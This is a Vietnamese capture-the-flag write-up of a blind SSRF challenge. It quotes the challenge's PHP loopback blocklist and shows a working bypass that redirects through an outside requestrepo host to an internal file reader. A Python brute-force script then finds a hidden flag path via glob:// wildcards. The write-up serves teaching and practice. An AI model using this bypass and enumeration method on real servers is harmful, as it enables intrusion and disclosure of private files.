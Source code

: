 # list file as a service

Bài này là một bài Blind SSRF xD. Mình sẽ không nói nhiều về SSRF mà chỉ tập trung vào phần Blind thôi. Mình sẽ để các bài về SSRF trước của mình ở đây, nếu chưa biết về SSRF các bạn có thể tham khảo:

* [Diff Checker (idek CTF 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/idek%20CTF%202021/Diff%20Checker)
* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)
* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

## ∫

### ssrf.php

Nhìn sơ qua hàm `filter`, đoạn code này sẽ chặn các địa chỉ `local` và chỉ cho phép 2 scheme đó là `http` và `https`.

```php
function filter($args){
	$blacklists = ["127.0.0.1","0.0.0.0", "127.0.1","127.1","0","localhost","2130706433","0x7f000001","0177.0.0.1"];
	$whitelists = ["http" , "https"];
	if(!in_array($args["scheme"],$whitelists))
		{echo $args["scheme"];
		return 0;}
	else{
		if(in_array($args["host"],$blacklists) ){
			echo $args["host"];
			return 0;
		}
		if(strpos($args["query"],"dir_name")){
			return 0;
		}
	}
	return 1;
}
```

### dir.php

Mục đích của mình là đến được `dir.php` và dùng hàm `file_get_contents` để đọc flag.

```php
if($_SERVER['REMOTE_ADDR']=== "127.0.0.1"){
	if(isset($_GET['dir_name'])){
		$dir = new DirectoryIterator($_GET['dir_name']);
		foreach ($dir as $key) {
			echo $key->getType();
		}
	}
	if(isset($_GET['file'])){
		var_dump(file_get_contents($_GET['file']));
	}
}
```

Khi mình query param `dir_name` nó sẽ không in ra tên file mà chỉ in ra type do đó không list dir được, nên mình đoán flag sẽ không dễ ăn như kiểu `flag.txt` mà sẽ được giấu ở đâu đó.

## bypass ssrf

Ở đây mình dùng `requestrepo.com` và config như sau để bypass đoạn filter trên:

![requestrepo](images/requestrepo.png)

Sau khi config xong, đoạn payload mình nặn ra sẽ trông như này:

```
http://45.122.249.68:10004/ssrf.php?host=http://meo.58c8d7tk.requestrepo.com/dir.php
```
![bypass_ssrf](images/bypass_ssrf.png)

Vậy là phần SSRF đã xong, việc còn lại là tìm xem flag được giấu ở đâu.

## blind ssrf

Đề bài có đề cập rằng `i alway hile my secret in temp` nên mình đoán flag được giấu ở `/tmp`. Mình thử query `dir_name` thì server trả về 3 "`dir`", 2 trong 3 `dir` đó chính là `.` và `..`, vậy thì khả năng cao thư mục còn lại sẽ chứa flag.

![tmp](images/tmp.png)

Do không list dir được nên mình lợi dụng wildcard trong wrapper [glob://](https://www.php.net/manual/en/wrappers.glob.php) để bruteforce hehe =))

![blind_ssrf](images/blind_ssrf.jpg)

Đây là đoạn code mình dùng để bruteforce:

```python
import requests
from string import ascii_lowercase, digits 

url = 'http://45.122.249.68:10004/ssrf.php?host=http://meo.58c8d7tk.requestrepo.com/dir.php'

dir = '/tmp'
charset = ascii_lowercase + digits + '._/'

found = False
while not found:
    found = True
    for c in charset:
        print(c)
        r = requests.get(url + f'?dir_name=glob://{dir + c}*')

        if 'dir' in r.text or 'file' in r.text:
            dir += c
            found = False
            print('found:', dir + c)
            break

print('found:', dir)
```

And, voila :D

```console
$ python blind.py
...
8
9
_
.
/
found: /tmp/vkl_dir_hidden/aduvjpflag.xyz
```

Sau một lúc thì mình bruteforce được path, bây giờ chỉ cần query lên server là xong.

![flag](images/flag.png)

Flag: `Wanna.One{list_file_ssrf_as_a_service}`